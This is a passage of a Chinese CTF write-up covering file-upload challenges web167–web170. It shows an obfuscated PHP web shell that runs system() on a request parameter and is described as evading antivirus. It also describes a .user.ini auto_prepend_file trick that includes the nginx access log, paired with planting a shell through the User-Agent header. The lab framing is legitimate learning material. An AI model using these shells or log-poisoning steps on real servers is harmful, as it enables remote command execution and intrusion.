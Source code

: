 
然后上传shell.abc 里面的payload为base64编码的一句话



<img src="https://i-blog.csdnimg.cn/blog_migrate/aabc33dc476659535ad8ee1068e8ebe2.png" alt="" style="max-height:435px; box-sizing:content-box;" />


然后访问即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/5838235d59970551b5566b833caad4b5.png" alt="" style="max-height:749px; box-sizing:content-box;" />


## web168

说是免杀

```php
<?php
	$a=strrev("metsys");
	$a($_REQUEST[0]);
?>
```

上传png 然后修改php 访问即可





<img src="https://i-blog.csdnimg.cn/blog_migrate/baa3758493524d28941f8fd397821af2.png" alt="" style="max-height:631px; box-sizing:content-box;" />


通过传递0获取



<img src="https://i-blog.csdnimg.cn/blog_migrate/b7ec5cf523bae2fb00e626371eb4f7d1.png" alt="" style="max-height:514px; box-sizing:content-box;" />


## web169-web170

日志注入

上传user.ini

```cobol
auto_prepend_file=/var/log/nginx/access.log
```

然后再上传一个php文件 ua中写入木马即可

到这里 就结束了

感觉日志注入 咋这么多